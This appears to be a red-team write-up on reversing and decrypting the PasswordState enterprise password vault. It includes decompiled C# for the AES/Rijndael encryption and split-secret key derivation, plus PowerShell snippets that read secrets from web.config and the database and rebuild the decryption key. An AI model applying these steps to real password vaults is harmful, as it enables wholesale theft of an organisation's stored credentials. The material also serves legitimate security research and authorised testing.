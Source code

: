# Decrypting PasswordState entries
During one of our recent red teaming engagements we managed to get a foothold in a customer's domain. During our information gathering we stumbled upon a hidden backup share on one of the servers. The hidden share contained a database and webroot backup for the PasswordState ([website](https://www.clickstudios.com.au/)) password vault! PasswordState is an enterprise password management solution. This means we hit the jackpot, for obvious reasons.

Searching the Internet for a way to decrypt all password did not yield any results, so we decided to look into the product and write our own! 

This post starts with an overview how the encryption works and ends with a ready-to-go PowerShell script to use during your red teaming engagements.

## PasswordState Reversing
PasswordState installs itself to `C:\inetpub\PasswordState` by default. In this directory, the web application and service source code is installed. The `C:\inetpub\Passwordstate\bin` contains the executable file `Passwordstate.exe`, which is also the service binary. This is a perfect binary for starting our reverse engineering efforts, since this most likely contains either a reference to the code that decrypts passwords, or a reference to that code.

### Reversing password encryption
The binary is a .NET Framework 4.5 binary. Using [dnSpy](https://github.com/0xd4d/dnSpy) it's possible to decompile this binary into (mostly) readable source code. The binary contains several namespaces, the most interesting being `PasswordstateService`. This namespace contains the service class `PasswordstateService`. 

Looking through the methods of this class, the `AddPassword` function stands out. This function adds a password to the password database, encrypting the plaintext in the process. The decompiled code snippet below shows where the application encrypts the password before storing it in the database.

```c#
public string AddPassword(..., string InitialPassword, ...)
{
    ...
    oleDbCommand2.Parameters.AddWithValue("Password", this.AES_Encrypt(Conversions.ToString(num) + "¿" + InitialPassword));
    ...
}
```

The `AES_Encrypt` function encrypts the password. Apparently, this function uses the [`RijndaelManaged`](https://docs.microsoft.com/en-us/dotnet/api/system.security.cryptography.rijndaelmanaged) class in default mode and the [`AesCryptoServiceProvider`](https://docs.microsoft.com/en-us/dotnet/api/system.security.cryptography.aescryptoserviceprovider) class in FIPS mode. 

```c#
// PasswordstateService.PasswordstateService
// Token: 0x06000193 RID: 403 RVA: 0x0003EEA8 File Offset: 0x0003D0A8
public byte[] AES_Encrypt(string myString)
{
    byte[] array = new byte[0];
    bool flag = !this.FIPSMode;
    if (flag)
    {
        RijndaelManaged rijndaelManaged = new RijndaelManaged();
        rijndaelManaged.KeySize = 256;
        rijndaelManaged.BlockSize = 256;
        rijndaelManaged.Key = this.EncryptionKey;
        rijndaelManaged.GenerateIV();
        array = this.encryptStringToBytes_AES(myString, rijndaelManaged.Key, rijndaelManaged.IV);
        array = PasswordstateService.Combine(new byte[][]
        {
            array,
            rijndaelManaged.IV
        });
        rijndaelManaged.Dispose();
    }
    else
    {
        AesCryptoServiceProvider aesCryptoServiceProvider = new AesCryptoServiceProvider();
        aesCryptoServiceProvider.BlockSize = 128;
        aesCryptoServiceProvider.KeySize = 256;
        aesCryptoServiceProvider.Key = this.EncryptionKey;
        aesCryptoServiceProvider.GenerateIV();
        aesCryptoServiceProvider.Mode = CipherMode.CBC;
        aesCryptoServiceProvider.Padding = PaddingMode.PKCS7;
        byte[] bytes = Encoding.Default.GetBytes(myString);
        using (ICryptoTransform cryptoTransform = aesCryptoServiceProvider.CreateEncryptor())
        {
            byte[] array2 = cryptoTransform.TransformFinalBlock(bytes, 0, bytes.Length);
            array2 = PasswordstateService.Combine(new byte[][]
            {
                array2,
                aesCryptoServiceProvider.IV
            });
            array = array2;
        }
        aesCryptoServiceProvider.Dispose();
        aesCryptoServiceProvider = null;
    }
    return array;
}
```

In both cases, the encryption key is taken from a class property `EncryptionKey`. This property is set in the `JoinSplitSecrets` method of the same class. This method gets 4 secrets, 1 and 2 from the web.config file and 3 and 4 from the database. Secret 1 and 3 are then combined into the `EncryptionKey` and secret 2 and 4 are combined into the `HMACKey`. The diagram below shows which secrets are used for which key.

![Diagram](images/diagram.png "Passwordstate key Diagram")

The simplified code snippet below shows this process for the `EncryptionKey`. 
```c#
public void JoinSplitSecrets()
{
    string value1 = "";
    string value3 = "";
    ...
        // get secrets from database
        string cmdText = "SELECT Secret3, Secret4 FROM [SystemSettings]";
    ...
                //assign secrets to variables
                value3 = oleDbDataReader["Secret3"].ToString();
    ...
    // get secret1 from web.config
    XmlNode xmlNode = xmlDocument.DocumentElement.SelectSingleNode("/configuration/appSettings/add[@key=\"Secret1\"]");
    ...
    value1 = xmlNode.Attributes.GetNamedItem("value").Value.ToString().ToLower();
    ...
    
    //append Secret1 and Secret3 to eachother
    StringBuilder stringBuilder = new StringBuilder();
    stringBuilder.AppendLine(value1);
    stringBuilder.AppendLine(value3);

    // Combine these secrets 
    CombinedSecret combinedSecret = SecretCombiner.Combine(stringBuilder.ToString());
    string recoveredTextString = combinedSecret.RecoveredTextString;
    ...
    // Set the encryption key!
    this.EncryptionKey = PasswordstateService.ToHexBytes(recoveredTextString);
}
```

The `SecretCombiner` class comes from the import `Moserware.Security.Cryptography` ([GitHub link](https://github.com/moserware/SecretSplitter)). This library allows a developer to split up secrets in two parts and store them apart from eachother. Combining both parts would lead to the original secret again. 

### Summary
Reversing the PasswordState decryption routine gives the following insights:
* The application generates 4 secrets, stores 2 in DB and 2 in web.config
* 1 secret from web.config and 1 from the DB generate
    * Encryption Key (secret 1 & 3)
    * HMAC Key (secret 2 & 4)
* Passwords are encrypted and stored using AES256-CBC and PKCS7

## Getting the necessary information
As stated before the application stores its secrets spread over the database and the web.config file. Getting the secret from web.config is easy using PowerShell, since PowerShell is capable of parsing XML files and performing XPath queries. Getting the secret is a simple as:

```powershell
[xml]$webConfig = Get-Content .\Examples\web.config
$secret1 = $webConfig.SelectSingleNode('/configuration/appSettings/add[@key="Secret1"]').value
```

In this code snippet we use XPath to select the necessary value.

Getting secret3 involves reading the database. As always, [StackOverflow](https://stackoverflow.com/questions/8423541/how-do-you-run-a-sql-server-query-from-powershell) has the answer. Using the code found in that post getting secret3 is as easy as:

```powershell
$secret3 = (Invoke-SQL -connectionString $ConnectionString -sqlCommand "SELECT secret3 FROM SystemSettings").secret3
```
Combining the secrets to get the encryption key is done like so (after loading in the Moserware DLL):

```powershell
$encryptionKey = [Moserware.Security.Cryptography.SecretCombiner]::Combine($Secret1 + "`n" + $Secret3).RecoveredTextString]
```

Note: this key is a hex-encoded variant of the actual key. Using a snippet from the [SANS](https://www.sans.org/blog/powershell-byte-array-and-hex-functions/) website we can transform it into a byte-array.

So now we have the key, we need to write the decryption function in PowerShell. As mentioned before, PowerShell is able to use the RijndaelManaged class directly. The snippet below shows how to decrypt one single entry. PasswordState uses a non-default Key and Block size.

```c#
$RijndaelManaged = new-Object System.Security.Cryptography.RijndaelManaged
$RijndaelManaged.KeySize = 256
$RijndaelManaged.BlockSize = 256;

$RijndaelManaged.Key = $EncryptionKey
$RijndaelManaged.IV = $InitVector

# Create Rijndael Decryptor with given parameters
$decryptor = $RijndaelManaged.CreateDecryptor($RijndaelManaged.Key, $RijndaelManaged.IV)
```

## Putting it all together
Combining the things we discovered above leads to a PowerShell script that runs on the PasswordState server itself. If ran on the PasswordState server itself, it only needs the `web.config` location (and the SecretSplitter.dll location if it's not installed to the default location).

![PoC screenshot](images/poc.png "Script example")

Alternatively, you can export all necessary secrets and run from another host, as shown in the screenshot below. You just need the secret1 and secret3 value (or the EncryptionKey) and all entries in CSV format.

![PoC screenshot 2](images/poc2.png "Script example 2")

Please use PowerShell's Get-Help to find even more information on how to use this script!

The script can be found on [Northwave's GitHub](https://github.com/NorthwaveNL/passwordstate-decryptor).

## Builds > 8903
During update Passwordstate 8.9 - Build 8903 (released April 6th 2020) Clickstudios changed the way data was encrypted/decrypted. For newer versions, the folks at [modzero discovered](https://modzero.com/modlog/archives/2022/12/19/better_make_sure_your_password_manager_is_secure/index.html) that during the update, Clickstudios decided to reverse the encryption key.